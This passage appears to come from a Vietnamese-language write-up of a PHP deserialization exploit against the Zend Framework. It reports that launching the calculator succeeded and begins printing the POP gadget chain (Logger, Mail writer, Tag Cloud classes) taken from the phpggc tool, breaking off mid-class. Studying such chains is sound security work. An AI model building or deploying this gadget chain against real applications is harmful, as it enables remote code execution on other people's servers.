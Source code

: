 ![Exploit result](./img/exploit-result.png)
Thực thi thành công và calculator được khởi động.

## 4.4. Phân tích POP chain đã sử dụng
Các gadget được lấy từ công cụ `phpgcc`
```php
<?php
namespace Zend\Log    {
    class Logger {
        protected $writers;

        function __construct($function, $param) {
            $this->writers = array(
                new \Zend\Log\Writer\Mail($function, $param)
            );
        }
    }
}

namespace Zend\Log\Writer {
    class Mail {
        protected $eventsToMail;
        protected $subjectPrependText;
        protected $numEntriesPerPriority;

        function __construct($function, $param) {
            $this->eventsToMail = array(0);
            $this->subjectPrependText = "";
            $this->numEntriesPerPriority = array(
                0 => new \Zend\Tag\Cloud($function, $param)
            );
        }
    }
}

namespace Zend\Tag  {
    class Cloud {
        protected $tags;
        protected $tagDecorator;
```